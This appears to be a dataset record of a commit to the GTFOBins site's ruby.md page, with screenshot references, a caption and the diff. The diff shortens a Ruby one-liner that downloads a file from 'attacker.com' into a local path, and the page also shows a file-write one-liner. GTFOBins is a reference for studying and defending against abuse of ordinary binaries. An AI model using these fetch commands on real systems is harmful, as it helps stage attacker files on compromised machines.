

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ruby.md, in a window 1280 px wide and 900 px high, scrolled down 696 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Use shorten ruby file download from #44

```diff
--- a/_gtfobins/ruby.md
+++ b/_gtfobins/ruby.md
@@ -16,11 +16,9 @@ functions:
   file-download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export RFILE=/file_to_get
+        export URL=http://attacker.com/file_to_get
         export LFILE=file_to_save
-        ruby -e 'require "net/http"; Net::HTTP.start(ENV["RHOST"], ENV["RPORT"]) { |http| r = http.get(ENV["RFILE"]); open(ENV["LFILE"], "wb") { |file| file.write(r.body) } }'
+        ruby -e 'require "open-uri"; download = open(ENV["URL"]); IO.copy_stream(download, ENV["LFILE"])'
   file-write:
     - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("DATA") }'
   file-read:
```
